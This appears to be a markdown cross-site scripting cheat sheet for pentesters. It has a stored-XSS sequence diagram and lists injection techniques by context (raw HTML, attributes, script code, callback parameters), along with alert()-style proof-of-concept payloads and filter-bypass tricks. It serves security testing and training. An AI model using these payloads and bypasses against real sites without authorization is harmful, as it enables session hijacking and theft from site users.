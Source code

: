 ```mermaid
sequenceDiagram
    participant A as Attacker
    participant B as Web Application
    participant C as Database
    participant U as User

    A->>B: 1. Identifies Vulnerable Web App
    A->>B: 2. Injects Malicious Script via Input
    B->>C: 3. Stores Script in Database
    C->>B: 4. Retrieves Script on Request
    B->>U: 5. Serves Page with Script
    U->>U: 6. Executes Script (Browser)
    U->>A: 7. Script Sends Data to Attacker
```

### **Raw HTML Injection (Context-Based Injection)**

1. Create New HTML Tags:
	You can create new tags `<script>`, `<img>`, `<svg>`?
3. Use Event Handlers:
	Use attributes that support the `javascript:` protocol or event handlers like `onload`, `onerror`.
4. Client-Side Template Injection:
	Check if any JS engine (AngularJS, VueJS, etc.) processes the HTML content.
5. Scriptless Injection 
	If you can’t create executable HTML tags, consider Dangling Markup.
6. Bypass Protections
	Use various encoding techniques to bypass filters and protections.


#### Example Payloads:

1. Basic Payload: 
	`<script>alert(1)</script>`
2. Image Payload: 
	`<img src=x onerror=alert(1)>`
3. SVG Payload: 
	`<svg onload=alert('XSS')>`
4. Iframe Payload: 
	`<iframe src="javascript:alert(1)"></iframe>`
5. Event Handler: 
	`<img src=x onerror=alert(1)>`

### **Inside HTML Attributes (Context-Based Injection)**

1. Escape to Raw HTML:
	Try to escape out of the attribute context using `">`.
2. Inject New Events/Attributes:
	Inject new events or attributes that support JavaScript execution.
3. Bypass Protections:
	Use various encoding techniques to bypass filters and protections.

#### Example Payloads:

1. Attribute Escape: 
	`"><img src=x onerror=alert(1)>`
2. Event Injection: 
	`" autofocus onfocus=alert(1) x="`
3. Protocol Injection: 
	`href="javascript:alert(1)"`
4. HTML Entity Encoding: 
	`<a href="javascript:var a='&apos;-alert(1)-&apos;'">a</a>`
5. Unicode Encoding: 
`<img src onerror=\u0061\u006C\u0065\u0072\u0074(1)>`

### **Inside JavaScript Code (Context-Based Injection)**

1. Escape the Tag: 
	Inject `</script>` to escape the script context.
3. Escape String Context:
	Use techniques to break out of string literals and execute arbitrary JS code.
5. Template Literals:
	Utilize `${ ... }` syntax to inject JS expressions inside template literals.
7. Bypass Protections:
	Use various encoding methods to bypass protections.

#### Example Payloads:

1. Escape Script Tag: 
	`</script><img src=1 onerror=alert(document.domain)>`
2. Escape String Context: 
	`'-alert(document.domain)-'`
3. Template Literals: 
	`${alert(1)}`
4. Unicode Encoding: 
	`<script>\u0061lert(1)</script>`

### **JavaScript Function Execution**

1. Function Parameter Injection:
	Indicate the name of the function to execute via a parameter, e.g., `?callback=alert(1)`.
2. DOM XSS Exploitation:
	Pay attention to how your input is controlled and if it is used by any sink functions.

### **Reflection Scenarios (Debugging Client-Side JS)**

1. Intermediately Reflected:
	If the value of a parameter or path is reflected on the web page, you could exploit Reflected XSS.
2. Stored and Reflected:
	If a value controlled by you is saved on the server and reflected every time you access a page, you could exploit Stored XSS.
3. Accessed via JS:
	If a value controlled by you is accessed using JavaScript, you could exploit DOM XSS.

### **Contexts for XSS Exploits (Debugging Client-Side JS)**

1. Raw HTML:
	Reflecting input in raw HTML allows you to use tags like `<img>`, `<iframe>`, `<svg>`, `<script>` to execute JS.
2. Inside HTML Tags Attribute:
	Escaping from attributes or using events that support JS execution within attributes (e.g., `onclick`, `href="javascript:"`).
3. Inside JavaScript Code:
	Escaping from `<script>` tags, strings, or using template literals for JS execution.

### **Special Scenarios and Bypasses (Debugging Client-Side JS)**

1. Accessing JavaScript Functions:
	Use parameters to control function execution, such as `?callback=alert(1)`.
2. Encoding Tricks:
	Bypass filters using HTML encoding, Unicode encoding, URL encoding, etc.
3. Special Protocols:
	Use `javascript:` or `data:` protocols in attributes like `href` or `src`.

### **Advanced Techniques**

1. JavaScript Hoisting: Exploit scenarios where undeclared variables or functions are used.
2. CSS-Gadgets: Use CSS to manipulate element positioning and maximize the impact of XSS.
3. Polyglots: Create payloads that can be executed in multiple contexts (HTML, JavaScript, etc.).

### **Bypasses and Obfuscation**

1. Random Capitalization:
	Vary the capitalization of tags and attributes (e.g., `<sCrIpT>`).
2. Double Tag Injection:
	Use double tags to bypass single tag filters (e.g., `<script><script>`).
3. Unexpected Parent Tags:
     Use unexpected parent tags like `<svg><x><script>alert(1)</script></x></svg>`.
4. Unicode and HTML Encoding:
	Use Unicode or HTML entities to obfuscate payloads (e.g., `\u0061lert(1)`, `&apos;-alert(1)-&apos;`).

[XSS Training and Testing Platform](https://xss-game.appspot.com/)
